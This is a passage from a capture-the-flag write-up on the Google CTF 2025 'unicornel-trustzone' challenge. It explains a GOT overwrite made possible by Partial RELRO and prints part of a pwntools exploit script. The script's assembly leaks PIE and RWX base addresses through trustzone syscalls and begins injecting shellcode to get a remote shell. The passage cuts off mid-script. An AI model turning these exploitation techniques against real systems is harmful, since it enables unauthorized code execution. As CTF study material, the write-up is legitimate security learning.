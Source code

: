 If you remember the binary securities implemented in the beginning, we observed that relocation is set to Partial Relocation Read-Only. That means that this program is susceptible to GOT overwrite. So we can easily overwrite the GOT entry by mapping an address to the calculated GOT position from the known PIE base address. 
Let's try to find the GOT address of write function so that we can gain remote shell access by running `unicornel_write`.

`readelf -r chal | grep write` gives:
{{ img(id="/writeups/GoogleCTF2025/unicornel-trustzone/write-got.png", alt="Alt Text", class="textCenter") }}

The final exploit script is 

```python
from pwn import *
import unicorn 
import os 

context.arch = "amd64"
#context.log_level = 'debug'

code = asm(
r'''
    .intel_syntax noprefix

    /* create shared buffer*/
    mov rbx, 0x1000
    mov rax, 3
    int 0x80 

    /* Call create_trustzone to change perms */
    mov rbx, 0x4000
    lea rcx, [rip + memprot_x86_64]
    mov rax, 8
    int 0x80
    
    mov rbx, 0x4000
    mov rcx, 0x1000
    mov rdx, 0x7
    lea rdi, [rip + password]
    mov rax, 10
    int 0x80

    /* overwrite trustzone to validate_handle and store return pointer at r12 and write */
    mov rdi, 0x4000
    lea rsi, [rip+leak_shared]
    lea rcx, [rip+leak_shared_end]
    sub rcx, rsi
    rep movsb
    mov rax, 10 #call invoke_trustzone with the custom shellcode leak_shared at the created trustzone
    int 0x80

    /* leak PIE base and RWX base address */
    mov rdi, 0x4000
    lea rsi, [rip+leak_pie_rwx]
    lea rcx, [rip+leak_pie_rwx_end]
    sub rcx, rsi
    rep movsb
    mov rax, 10 #call invoke trustzone to execute pie leak instructions
    int 0x80
    
    /* fill trustzone with code for rce and invoke */
    add r10, 0x444400 # We plan to inject shellcode in the rwx+0x44000 area
    mov rdi, 0x4000
```